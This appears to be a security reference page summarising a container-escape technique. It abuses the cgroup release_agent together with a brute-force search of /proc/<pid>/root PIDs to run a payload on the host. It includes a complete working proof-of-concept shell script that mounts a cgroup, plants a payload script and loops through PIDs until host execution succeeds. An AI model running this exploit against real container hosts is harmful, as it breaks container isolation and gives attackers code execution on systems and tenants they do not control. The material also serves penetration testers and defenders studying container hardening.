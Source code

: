 For further details check the blog port from . This is just a summary:

The technique outlines a method for executing host code from within a container, overcoming challenges posed by storage-driver configurations that obscure the container's filesystem path on the host, like Kata Containers or specific `devicemapper` settings.

Key steps:

1. Locating Process IDs (PIDs): Using the `/proc/<pid>/root` symbolic link in the Linux pseudo-filesystem, any file within the container can be accessed relative to the host's filesystem. This bypasses the need to know the container's filesystem path on the host.

2. PID Bashing: A brute force approach is employed to search through PIDs on the host. This is done by sequentially checking for the presence of a specific file at `/proc/<pid>/root/<file>`. When the file is found, it indicates that the corresponding PID belongs to a process running inside the target container.

3. Triggering Execution: The guessed PID path is written to the `cgroups release_agent` file. This action triggers the execution of the `release_agent`. The success of this step is confirmed by checking for the creation of an output file.

#### Exploitation Process

The exploitation process involves a more detailed set of actions, aiming to execute a payload on the host by guessing the correct PID of a process running inside the container. Here's how it unfolds:

1. Initialize Environment: A payload script (`payload.sh`) is prepared on the host, and a unique directory is created for cgroup manipulation.

2. Prepare Payload: The payload script, which contains the commands to be executed on the host, is written and made executable.

3. Set Up Cgroup: The cgroup is mounted and configured. The `notify_on_release` flag is set to ensure that the payload executes when the cgroup is released.

4. Brute Force PID: A loop iterates through potential PIDs, writing each guessed PID to the `release_agent` file. This effectively sets the payload script as the `release_agent`.

5. Trigger and Check Execution: For each PID, the cgroup's `cgroup.procs` is written to, triggering the execution of the `release_agent` if the PID is correct. The loop continues until the output of the payload script is found, indicating successful execution.

PoC from the blog post:

```
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```